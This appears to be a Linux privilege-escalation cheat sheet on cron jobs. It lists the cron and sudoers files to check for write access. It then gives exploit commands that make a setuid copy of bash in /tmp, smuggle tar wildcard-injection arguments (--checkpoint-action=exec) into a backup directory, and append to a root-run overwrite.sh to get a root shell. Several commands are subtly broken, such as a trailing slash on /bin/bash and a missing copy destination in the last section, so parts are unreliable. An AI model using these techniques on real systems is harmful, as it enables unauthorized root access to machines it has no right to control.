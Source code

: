 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   
### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
          
          
          
          
   ## overwrite.sh Exploit
      
       touch /home/user/overwrite.sh
       echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
       chmod +x /home/user/overwrite.sh
       /tmp/bash -p




   ## compress.sh
   
      cat <PATH=compress.sh>
      
   ## OUTPUT
   
          #!/bin/sh
          cd /home/user
          tar czf /tmp/backup.tar.gz *
          
   ## Exploit wildcards
   
        echo 'cp /bin/bash/ /tmp/bash; chmod +s /tmp/bash' > asif.sh
        chmod 777 asif.sh
        touch /home/user/--checkpoint=1
        touch /home/user/--checkpoint-action=exec=sh\asif.sh
        /tmp//bash -p
        
        
        
        
        
   ## Change File permissions And Exploit
   
       locate overwrite.sh
       echo 'cp /bin/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
       /tmp/bash -p
   
   
   
   
     
